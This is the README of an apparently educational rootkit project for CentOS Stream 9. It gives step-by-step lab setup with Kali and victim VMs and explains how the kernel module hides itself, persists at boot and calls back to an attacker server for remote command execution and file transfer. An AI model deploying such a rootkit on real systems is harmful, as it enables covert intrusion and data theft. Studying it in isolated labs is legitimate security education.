







# EPIROOTKIT Project

> **Disclaimer:** This project is created strictly for educational purposes only. It must **not** be used in any real-world environment or malicious activity. Always follow legal and ethical guidelines when working with security-related code.

# Summary

- [installation](#installation)
- [Usage](#usage)
- [Commands](#commands)
- [What happens?](#what-happens)
- [Why CentOS 9](#why-rootkit-on-centos-9-stream)
- [Why Kali Linux](#why-use-kali-linux-for-the-rootkit-attack)
- [Authors](#authors)

# Installation

## Installation of VirtualBox

Go to [https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads), and download the software from for your OS.

## Installation of the attacking VM

Install the kali linux here: [https://cdimage.kali.org/kali-2025.2/kali-linux-2025.2-virtualbox-amd64.7z](https://cdimage.kali.org/kali-2025.2/kali-linux-2025.2-virtualbox-amd64.7z)

When the download is finished, unzip it, go to the folder and double click on the file **.vbox** it to launch it on VirtualBox

The credentials are :

* username: `kali`
* password: `kali`

Before launching the VM, Go to **settings > Network**, and on the **Attached to**, change for **Bridged Adapter**. Click on **OK** to save.

Open the terminal, and run :

`sudo apt update`

`sudo apt install sshpass`

``ssh-keygen -t rsa`

Press enter for all the question, then run :

`cat ~/.ssh/id_rsa.pub`

You will have to copy the result

Copy the repo address.

Go back to the Kali VM, and run:

`git clone ` and paste your clipboard. it should look something like : `git clone git@github.com:Alexandre-Leclaire/rootkit.git`

Press `Y` if they asked you, and wait until the download complete.

When it's done, run:

`cd rootkit/attacking_program`

`chmod u+x sendRootkit.sh && chmod u+x scripts/*`

get the ip address of your linux with :

`ip a`

`./sendRootkit.sh rootkit@<ip address>`

(for example, here it will be `./sendRootkit.sh rootkit@10.0.2.15`

A command will appear, **you have to copy it**, we will use it later.

Then, run :

`make`

`./server 8080`

## Installation of the Victim VM

Download the ova here: [Centos 9](https://gofile.me/7BymO/zkgH1gEoN)

We use a custom link and OVA file to ensure the correct version of CentOS Stream 9 is used, as the official one may no longer be available and to skip the configuration step.

Double click on it to launch it on VirtualBox

The credentials are :

* username: `rootkit`
* password: `root`

Before launching the VM, Go to **settings > Network**, and on the **Attached to**, change for **Bridged Adapter**. Click on **OK** to save.

Open a terminal, and run:

`sudo dnf install make kernel-devel-$(uname -r) kernel-headers-$(uname-r) -y`

Paste the command you copied from the attacking VM. it should look something like : `scp -r kali@10.0.2.15:/home/kali/rootkit/rootkit /tmp/`

`cd /tmp/rootkit`

`make -j 4`

`chmod u+x ./start.sh`

To get the ip of the attacking VM, It will be the part between the **@** and the **:** from the command you copied. for example, from `scp -r kali@10.0.2.15:/home/kali/rootkit/rootkit /tmp/` the ip address is **10.0.2.15**

`./start.sh IP 8080` (For example, `./start.sh 10.0.2.15 8080`)

If they are not on the same network, you will need to open the appropriate port between them.

You should have something looking like this :

# What Happens?

## Victim Machine

The rootkit hides itself from the process list and system modules.

It also creates persistence to ensure it is reloaded at every boot of the victim machine.

Next, it establishes a socket connection to the attacking VM, allowing you to execute commands on the victim machine and send or receive files.

## Attacking Machine

If it's the first time launching the attacking program, you will choose a program password.

Otherwise, you must enter the password you chose during the first launch.

The attacking program will then open a socket and wait for the victim machine to connect.

Once the victim machine connects, you will be able to execute commands on it.

If a command begins with upload or download, you will enter a different mode — see the usage instructions below.

# Features:

## Connection

In order to properly connect to the rootkit you must follow the tutorial of installation of both VM's.

First, make sure to start the server on whatever port you feel opening it onto using `./server <YourFavoritePort>`. (keep the port in mind you will need it ! - also make sure its a valid port otherwise the server will just crash)

When this is done and after the `./start.sh <IP> <PORT>` (IP being the IP of the attacker machine) script is ran on the **victim** machine, the then installed kernel module will attempt to connect to your server.

Once this connection is successful, your CLI on the attacker side should greet you with a welcome message.

You are now free to type your password !

## Password

On the Attacking VM, a password will be printed:

Be sure to save it, it won't be printed again!

Then, enter the password to be able to send command to the victim.

## Commands

After the password is validated and you are authorized to access the rootkit, you have a prompt asking you to enter a command. This prompt will accept :

- **All** linux commands that will not ask for a stdin input after their execution (commands like `bc` or `read`)

Which means that if you were to run a command that asks for a stdin after running (read for example) you can either :

- Pipe the input and then run your command (`echo "file.txt" | cat`)
- Or use a heredoc (`cat << EOF`)

**Warning**: the **>** and **>>** redirections in the command will disable the display of stdout on the attacking machine.

### Upload

- **upload** :

  write `upload` in the command prompt, then `<file_to_upload> <path_to_upload_to>` (a usage will be shown incase you forget)

  Examples :

  `upload`

  `/path/to/the/file.txt ~/Downloads`

### Download

- **download** :
  write `download` in the command prompt, then `<file_to_download> <path_to_download_to>`(a usage will be shown incase you forget)

Examples :

`download`

`/path/to/the/file.txt ~/Downloads`

The upload and download commands use the scp protocol.

Therefore, if the attacker and the victim are not on the same network, port 22 must be open between the victim and the attacker.
(if its not opened by default you can open it using `iptables -A INPUT -p tcp --dport 22 -j ACCEPT && iptables -A OUTPUT -p tcp --dport 22`)

## Persistence

The module is persistence because we write a file : `/etc/modules-load.d/${MODULE_NAME}.conf`

This mean it will load the module at start automatically

## Hide the rootkit from the module list

Removes the module from the kernel's list of loaded modules (`/proc/modules` and `lsmod`) using `list_del(&mod->list)`.

# Why rootkit on CentOS 9 stream

We chose to create a rootkit for CentOS Stream 9 because it is a widely used Linux distribution in enterprise environments.

We have found real servers running this distribution, and it is important to understand how rootkits work today.

Why version 9? Because we are used to working with it.

The kernel version is 5.14.0-587.el9.x86_64, which was the latest version available for CentOS Stream 9 at the time of our download.

# Why Use Kali Linux for the Rootkit Attack

We chose Kali Linux because it is widely used for conducting attacks, and the rootkit is well integrated into this environment.

# Authors

Alexandre Leclaire

Yohann Denoyelle

Lucas Aguetaï

Samuel Dorismond
